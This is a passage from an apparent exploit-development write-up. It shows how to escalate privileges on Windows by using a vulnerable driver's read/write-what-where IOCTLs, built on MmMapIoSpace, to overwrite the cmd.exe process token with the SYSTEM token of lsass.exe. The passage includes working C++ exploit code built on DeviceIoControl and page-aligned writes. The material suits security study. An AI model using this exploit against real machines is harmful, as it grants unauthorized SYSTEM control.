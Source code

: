 ```cpp
    if (system_tokens.token_name.size() != 0 and cmd_token_address != 0) {
        cout << "\n[>] cmd.exe and SYSTEM token information found!\n";
        cout << "[>] Let's swap tokens!\n";
    }
    else if (cmd_token_address == 0) {
        cout << "[!] No cmd.exe token address found, exiting...\n";
        exit(1);
    }
```

So now at this point I had the location and values of every thing I cared about and it was time to leverage the Write What Where routine we had found.

### Leveraging Write What Where
The problem I was facing was that I need my calls to `MmMapIoSpace` to be page-aligned so that the calls remain stable and we don't get any unnecessary BSODs.

So let's picture a page of memory as a line.

<-----------------MEMORY PAGE----------------->

We can only write in page-size chunks; however, the value we want to overwrite, the value of the `cmd.exe` process's `Token`, is most-likely not page-aligned. So now we have this:

<---------TOKEN------------------------------->

I could do a direct write at the exact address of this `Token` value, but my call to `MmMapIoSpace` would not be page-aligned. 

So what I did was one more Read What Where call to store everything on that page of memory in a buffer and then overwrite the `cmd.exe` `Token` with the `lsass.exe` `Token` and then use *that* buffer in my call to the Write What Where routine. 

So instead of an 8 byte write to simply overwrite the value, I'd be opting to completely overwrite that entire page of memory but only changing 8 bytes, that way the calls to `MmMapIoSpace` stay clean.

You can see some of that math in the code snippet below with references to `modulus`. Remember that the Write What Where utilized the input buffer of `DeviceIoControl` as the buffer it would copy over into the kernel memory:

```cpp
if (!DeviceIoControl(
        hFile,
        READ_IOCTL,
        &input_buff,
        0x40,
        output_buff,
        modulus + 0xc,
        &bytes_ret,
        NULL))
    {
        cout << "[!] Failed the read operation to copy the cmd.exe page...\n";
        cout << "[!] Last error: " << hex << GetLastError() << "\n";
        exit(1);
    }

    PBYTE results = (PBYTE)((INT64)output_buff + 0xc);

    PBYTE cmd_page_buff = (PBYTE)VirtualAlloc(
        NULL,
        modulus + 0x8,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE);
   

    DWORD num_of_bytes = modulus + 0x8;
```
